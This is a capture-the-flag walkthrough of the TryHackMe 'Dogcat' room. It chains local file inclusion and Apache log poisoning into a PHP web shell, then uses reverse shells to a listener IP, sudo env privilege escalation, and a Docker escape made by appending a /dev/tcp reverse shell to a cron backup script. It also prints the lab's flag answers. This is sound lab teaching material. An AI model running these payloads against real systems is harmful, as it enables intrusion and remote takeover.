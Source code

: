 # TryHackMe - Dogcat Walkthrough

## 📡 Task 1: Connect to the Network

---

## 🛠 Setup

Export the target IP address as an environment variable to simplify commands:

```bash
export IP=10.10.69.198
```

---

## 🔍 Nmap Scan

> ⚠️ Scanning all ports can take a long time.

Initial service enumeration:

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Nmap Results:**

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```

---

## 📁 Directory Enumeration with Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x .php,.txt,.html
```

**Results:**

```
/.html       (Status: 403)
/index.php   (Status: 200)
/cat.php     (Status: 200)
/flag.php    (Status: 200)
/cats        (Status: 301)
/dogs        (Status: 301)
/dog.php     (Status: 200)
```

---

## 🪪 Reading `flag.php` via LFI with PHP Filter

Use the PHP filter wrapper to read source code in base64:

```
http://$IP/?view=php://filter/convert.base64-encode/resource=dog/../flag
```

**Base64 Output:**

```
PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=
```

Decode using CyberChef or:

```bash
echo 'PD9waHAK...' | base64 -d
```

**Decoded Output:**

```php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

✅ **Flag 1:** `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

---

## 🧠 Reviewing `index.php` Logic

Use the same filter to inspect `index.php`.

Interesting logic:

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
...
if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
    include $_GET['view'] . $ext;
}
```

We can control the extension. Try reading system files:

```
http://$IP/?view=dog../../../../../etc/passwd&ext=
```

---

## 🔗 Local File Inclusion → Log Poisoning

Try reading the Apache access log:

```
http://$IP/?view=dog../../../../../var/log/apache2/access.log&ext=
```

### Inject PHP Code via User-Agent Header:

```bash
curl -A "<?php system($_GET['cmd']); ?>" http://$IP
```

Then access the log and execute commands:

```
http://$IP/?view=dog../../../../../var/log/apache2/access.log&ext=&cmd=ls
```

**Results:**

```
at.php
cats
dog.php
dogs
flag.php
index.php
style.css
```

---

## 🐚 Remote Code Execution via Reverse Shell

Initial attempts failed until realizing the shell needed to be URL-encoded.

Payload:

```php
php -r '$sock=fsockopen("10.6.57.243",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

URL-encode using CyberChef or:

```
php%20-r%20%27%24sock%3Dfsockopen%28%2210.6.57.243%22%2C8888%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Resulting in:

```bash
cat /var/www/flag2_QMW7JvaY2LvK.txt
```

✅ **Flag 2:** `THM{LF1_t0_RC3_aec3fb}`

---

## 🔓 Privilege Escalation with `sudo`

```bash
sudo -l
```

**Output:**

```
User www-data may run the following commands:
(root) NOPASSWD: /usr/bin/env
```

Use GTFOBins:

```bash
sudo env /bin/sh
id
```

**Result:**

```
uid=0(root) gid=0(root)
```

✅ **Root Access Achieved!**

```bash
cat /root/flag3.txt
```

✅ **Flag 3:** `THM{D1ff3r3nt_3nv1ronments_874112}`

---

## 🐳 Docker Escape

We’re in a Docker container (`.dockerenv` present).

Found backup script:

```bash
cat /opt/backups/backup.sh
```

**Output:**

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Append reverse shell:

```bash
echo "bash -i >& /dev/tcp/10.6.57.243/9999 0>&1" >> /opt/backups/backup.sh
```

Set up listener:

```bash
nc -lvnp 9999
```

💥 After a while, we get a shell on the host:

```bash
cat flag4.txt
```

✅ **Flag 4:** `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

---

## 🧠 Final Thoughts

This was a tough challenge. Key takeaways:

- Deep understanding of LFI and PHP filters is crucial.
- Apache log poisoning → LFI → RCE is a powerful chain.
- Reverse shell payloads often require URL encoding.
- Privilege escalation required careful reading of `sudo -l` output.
- Docker escape involved persistence and creativity.

> I referenced a walkthrough briefly to verify I was on the right track—definitely learned a lot. Time to practice more LFI + RCE chains.
